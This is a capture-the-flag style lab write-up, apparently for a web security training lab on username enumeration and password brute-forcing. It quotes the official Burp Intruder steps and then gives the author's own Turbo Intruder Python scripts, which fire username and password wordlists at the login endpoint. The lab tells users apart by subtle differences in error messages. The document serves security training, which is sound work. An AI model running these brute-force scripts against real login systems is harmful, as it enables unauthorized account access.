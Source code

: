 # Lab Solution
- With Burp running, investigate the login page and submit an invalid username and password.
- In Burp, go to Proxy > HTTP history and find the POST /login request. Highlight the value of the username parameter in the request and send it to Burp Intruder.
- In Burp Intruder, notice that the username parameter is automatically set as a payload position. This position is indicated by two § symbols, for example: username=§invalid-username§. Leave the password as any static value for now.
- Make sure that Sniper attack is selected.
- In the Payloads side panel, make sure that the Simple list payload type is selected.
- Under Payload configuration, paste the list of candidate usernames. Finally, click  Start attack. The attack will start in a new window.
- When the attack is finished, examine the Length column in the results table. You can click on the column header to sort the results. Notice that one of the entries is longer than the others. Compare the response to this payload with the other responses. Notice that other responses contain the message Invalid username, but this response says Incorrect password. Make a note of the username in the Payload column.
- Close the attack and go back to the Intruder tab. Click Clear §, then change the username parameter to the username you just identified. Add a payload position to the password parameter. The result should look something like this:

- username=identified-user&password=§invalid-password§
- In the Payloads side panel, clear the list of usernames and replace it with the list of candidate passwords. Click  Start attack.
- When the attack is finished, look at the Status column. Notice that each request received a response with a 200 status code except for one, which got a 302 response. This suggests that the login attempt was successful - make a note of the password in the Payload column.
- Log in using the username and password that you identified and access the user account page to solve the lab.

# My Solution
- I sent the log in request to burp turbo intruder and I Highlighted the username and used the following code
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/home/kali/authenticationlabusernames'):
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```
- After I got the Username when the error message said invalid "username and password.", but one of them is missing the trailing "." , I sent the request to repeater and I highlighted the password and sent it to burp turbo intruder once again using the same code but now with a password list
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/home/kali/authenticationlabuserpassword'):
        engine.queue(target.req, word.rstrip())
```